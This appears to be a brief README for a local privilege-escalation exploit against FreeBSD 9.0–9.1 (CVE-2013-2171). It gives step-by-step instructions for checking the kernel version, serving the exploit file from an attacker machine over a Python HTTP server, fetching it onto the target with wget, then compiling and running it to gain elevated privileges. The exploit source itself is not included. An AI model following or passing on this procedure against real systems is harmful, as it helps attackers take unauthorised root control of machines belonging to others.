 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**

uname -a

**2° Transfer this file to target**

Attacker machine -> python3 -m http.server 8080

Target machine -> wget IP:8080/26368.c

**3° Use GCC to compile the code**

gcc 26368.c -o exploit

**4° Run the exploit**

./exploit
